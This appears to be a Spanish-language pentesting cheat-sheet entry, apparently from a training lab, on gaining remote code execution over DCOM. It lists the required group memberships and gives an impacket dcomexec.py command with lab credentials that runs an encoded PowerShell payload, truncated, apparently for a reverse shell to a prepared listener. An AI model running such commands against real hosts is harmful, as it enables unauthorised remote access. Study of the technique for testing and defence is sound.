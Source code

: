 # Requisitos

- Un usuario con permisos específicos (local and network access)
- Usuarios miembros del grupo "Distributed COM Users"
- Usuarios miembros de "Administrators group"

# Desde linux

### dcomexec.py

Parte del paquete impacket.

##### Obtener RCE

###### 1) iniciamos un listener
###### 2) Corremos dcomexec

    python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:Jonny25@172.20.0.52 "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand
